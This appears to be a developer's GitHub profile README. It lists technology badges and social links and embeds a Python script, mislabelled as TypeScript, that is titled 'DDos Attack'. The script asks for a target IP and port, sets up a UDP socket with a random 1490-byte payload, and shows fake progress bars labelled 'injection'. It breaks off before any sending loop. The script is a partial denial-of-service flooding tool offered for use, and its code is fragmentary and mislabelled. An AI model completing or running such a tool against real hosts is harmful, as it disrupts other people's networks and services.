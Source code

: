 # ⚡ Technologies & Mobile

![JavaScript](https://img.shields.io/badge/-JavaScript-black?style=flat-square&logo=javascript)
![Nodejs](https://img.shields.io/badge/-Nodejs-black?style=flat-square&logo=Node.js)
![Python](https://img.shields.io/badge/-Python-black?style=flat-square&logo=Python)
![Flutter](https://img.shields.io/badge/-Flutter-black?style=flat-square&logo=Flutter)
![React](https://img.shields.io/badge/-React-black?style=flat-square&logo=react)
![HTML5](https://img.shields.io/badge/-HTML5-E34F26?style=flat-square&logo=html5&logoColor=white) <br>
![CSS3](https://img.shields.io/badge/-CSS3-1572B6?style=flat-square&logo=css3)
![Bootstrap](https://img.shields.io/badge/-Bootstrap-563D7C?style=flat-square&logo=bootstrap)
![Git](https://img.shields.io/badge/-Git-black?style=flat-square&logo=git)
![GitHub](https://img.shields.io/badge/-GitHub-181717?style=flat-square&logo=github)
![GitLab](https://img.shields.io/badge/-GitLab-FCA121?style=flat-square&logo=gitlab) <br>

```ts
import sys
import os
import time
import socket
import random
#Code Time
from datetime import datetime
now = datetime.now()
hour = now.hour
minute = now.minute
day = now.day
month = now.month
year = now.year

##############
sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
bytes = random._urandom(1490)
#############

os.system("clear")
os.system("figlet DDos Attack")
print
print("Author   : RakaTrust")
print("\n")
print
ip = input("IP : ")
port = input("Port       : ")

os.system("clear")
os.system("figlet Attack Starting")
print("    STARTING PROFILE      ")
time.sleep(5)
print("[                    ] 0% ")
time.sleep(0.1)
print("[=====               ] 25%")
time.sleep(0.5)
print("[==========          ] 50%")
time.sleep(0.5)
print("[===============     ] 75%")
time.sleep(0.5)
print("[====================] 100%")
time.sleep(0.5)
print("    PROSESS TO INJECTION      ")
time.sleep(5)
print("[                    ] 0% ")
time.sleep(0.1)
print("[=====               ] 25%")
time.sleep(0.5)
print("[==========          ] 50%")
time.sleep(0.5)
print("[===============     ] 75%")
time.sleep(0.5)
print("[====================] 100%")
time.sleep(0.5)
print("    SUCCESS  +   RUNTIME      ")
time.sleep(5)
sent = 0
```

## 🔗 Connect with me:
<a href="https://www.linkedin.com/in/raka-abdi-rmp-a0771a245" target="_blank">
<img src=https://img.shields.io/badge/linkedin-%2300acee.svg?color=405DE6&style=for-the-badge&logo=linkedin&logoColor=white alt=linkedin style="margin-bottom: 5px;" />
<a href="https://www.instagram.com/rakarmp_fja" target="_blank">
<img src=https://img.shields.io/badge/instagram-%ff5851db.svg?color=C13584&style=for-the-badge&logo=instagram&logoColor=white alt=instagram style="margin-bottom: 5px;" />

## ❤️ Love My Project
<a href="https://www.buymeacoffee.com/rakaabdirmp" target="_blank"><img src="https://www.buymeacoffee.com/assets/img/custom_images/orange_img.png" alt="Buy Me A Coffee" style="height: 41px !important;width: 174px !important;box-shadow: 0px 3px 2px 0px rgba(190, 190, 190, 0.5) !important;-webkit-box-shadow: 0px 3px 2px 0px rgba(190, 190, 190, 0.5) !important;" ></a>
